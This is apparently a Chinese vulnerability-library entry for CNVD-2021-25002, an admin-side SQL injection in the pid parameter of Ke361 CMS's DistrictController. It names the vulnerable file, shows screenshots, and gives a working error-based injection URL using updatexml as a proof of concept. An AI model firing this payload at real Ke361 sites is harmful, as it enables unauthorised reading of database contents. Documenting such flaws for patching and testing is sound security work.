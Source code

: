 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232910449.png)

存在漏洞的文件为 **Application/Admin/Controller/DistrictController.class.php**

![img](../../../.vuepress/public/img/1634142045802-bdf21a65-a663-4f35-afc2-bc3e70d44309.png)

验证POC

```php
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](../../../.vuepress/public/img/1634142062147-5e1703bb-91c6-44cd-8867-c3409540c2d8.png)



若有收获，就点个赞吧